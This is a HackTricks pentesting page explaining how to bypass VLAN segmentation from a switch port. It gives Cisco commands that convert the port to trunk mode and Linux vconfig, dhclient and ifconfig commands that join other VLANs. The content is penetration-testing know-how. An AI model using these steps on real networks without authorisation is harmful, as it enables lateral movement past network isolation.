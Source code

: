 # Lateral VLAN Segmentation Bypass

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario (for further info check https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9).

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address**:

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.

```
SW1# show vlan brief
```

**Transitioning to trunk mode entails entering interface configuration mode**:

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.

Virtual interfaces are then created, assigned VLAN IDs, and activated:

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

Example for manually setting a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

# References

* [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

